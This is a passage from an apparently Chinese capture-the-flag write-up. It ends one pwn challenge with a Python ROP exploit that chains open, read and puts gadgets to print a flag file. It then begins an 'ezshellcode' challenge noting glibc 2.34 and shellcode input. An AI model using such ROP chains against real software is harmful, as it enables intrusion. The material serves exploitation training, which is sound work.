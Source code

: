 ```bash

rsi=0x000000000002601f+libc_base
rdx=0x0000000000142c92+libc_base

s(pl)
#duan()
pl=b'./flag\x00\x00'+p64(rdi)+p64(bss)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(open_addr)
pl+=p64(rdi)+p64(3)+p64(rsi)+p64(bss+0x400)+p64(rdx)+p64(0x100)+p64(read_addr)
pl+=p64(rdi)+p64(bss+0x400)+p64(puts_addr)

s(pl)
itr()
```

## ezshellcode

### 思路

GLIBC\_2.34，所以这里用的 ubuntu22

[![](assets/1708654729-d0a8546c545a17efeff2ff2a3450311b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012007-4b60d1f8-d014-1.png)

[![](assets/1708654729-9690b8b78f0653ac24882dbcb5598440.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012012-4e2f851e-d014-1.png)  
其实这里就是输入 shellcode
